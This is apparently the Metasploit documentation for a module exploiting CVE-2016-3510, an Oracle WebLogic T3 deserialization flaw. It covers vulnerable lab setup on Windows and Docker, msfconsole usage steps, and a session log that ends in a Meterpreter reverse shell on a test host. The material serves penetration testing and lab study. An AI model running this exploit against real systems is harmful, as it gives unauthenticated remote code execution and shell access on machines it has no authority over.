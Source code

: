 ## Description
Oracle WebLogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE
2016-3510), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3
could exploit the vulnerability. This module has been tested against Oracle WebLogic Server v10.3.6.0 and v12.1.3.0
running on Windows 7 x64 using JDK v7u80.

### Setup (Windows)

Use the following steps to install a vulnerable instance of WebLogic v10.3.6.0 on a Windows 7 SP1 x64 system.

1. Install the Java SE Development Kit 7 Update 80 (64-bit version) from [Oracle][1] (use the `jdk-7u80-windows-x64.exe`
  installer). Leave all options at their default values.
1. Download "Oracle WebLogic Server 10.3.6" from their [site][2]. Select the generic installer under the "Installers
  with Oracle WebLogic Server and Oracle Coherence" section, the file is named `wls1036_generic.jar`. You may need to
  register an account.
1. From an administrative command prompt, use java to run the jar file.
    * Run: `"C:\Program Files\Java\jdk1.7.0_80\bin\java.exe" -jar wls1036_generic.jar`
1. Leave all options at their default values.
    * OPTIONAL: When prompted to register for security updates, uncheck "I wish to receive security updates via My
      Oracle Support" and confirm that you do in fact wish to remain uninformed of *critical security* issues.
    * When prompted to select the installation type, use the default "Typical" setting.
    * At the end, leave "Run Quickstart" checked and select "Done".
1. From the Quick Start menu, select "Getting started with WebLogic Server 10.3.6" to launch the configuration wizard.
1. Complete this wizard using all of the default values.
    * When prompted to enter a password, set any desired value. Knowledge of the password is not required in order to
      demonstrate this vulnerability or modify any settings in the future.
1. Start the service by navigating to the Start Menu and selecting: `All Programs > Oracle WebLogic > User Projects >
  base_domain > Start Admin Server for WebLogic`.

### Setup (Linux)

Use the following steps to install a vulnerable instance of WebLogic v10.3.6.0 in a Docker container. The same image
used to demonstrate [CVE-2017-10271][3] can be used.

1. Use git to clone the vulhub/vulhub repository from GitHub.
    * Run: `https://github.com/vulhub/vulhub`
1. From within the `weblogic/CVE-2017-10271` subdirectory, use Docker to run the image.
    * Run: `docker-compose up -d`
    * TCP port 7001 should now be listening on the host machine.

## Vulnerable Application
Oracle WebLogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize_marshalledobject`
3. `set rhosts <rhost>`
4. `set rport <srvport>`
5. `exploit`

## Scenarios
### Windows 7 x64 running Oracle WebLogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
```
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rhost 192.168.192.6
rhost => 192.168.192.6
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rport 7001
rport => 7001
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > exploit

[*] Started reverse TCP handler on 192.168.192.136:4444 
[*] 192.168.192.6:7001 - Sending handshake...
[*] 192.168.192.6:7001 - Sending T3 request object...
[*] 192.168.192.6:7001 - Sending client object payload...
[*] Sending stage (179779 bytes) to 192.168.192.6
[*] Meterpreter session 8 opened (192.168.192.136:4444 -> 192.168.192.6:49276) at 2018-12-14 11:44:30 -0800

meterpreter > sysinfo
Computer        : GIOTTO-HS-W7
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

[1]: https://www.oracle.com/java/technologies/javase/javase7-archive-downloads.html
[2]: https://www.oracle.com/middleware/technologies/weblogic-server-downloads.html
[3]: https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271

